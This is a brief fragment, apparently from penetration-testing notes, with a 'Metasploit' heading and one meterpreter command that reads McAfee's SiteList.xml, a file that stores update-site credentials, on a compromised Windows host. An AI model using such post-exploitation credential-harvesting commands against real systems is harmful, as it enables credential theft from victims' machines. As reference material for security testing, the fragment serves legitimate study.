 # Metasploit

```
meterpreter > cat "%UsersProfile%\Application Data\McAfee\Common Framework\SiteList.xml"
```
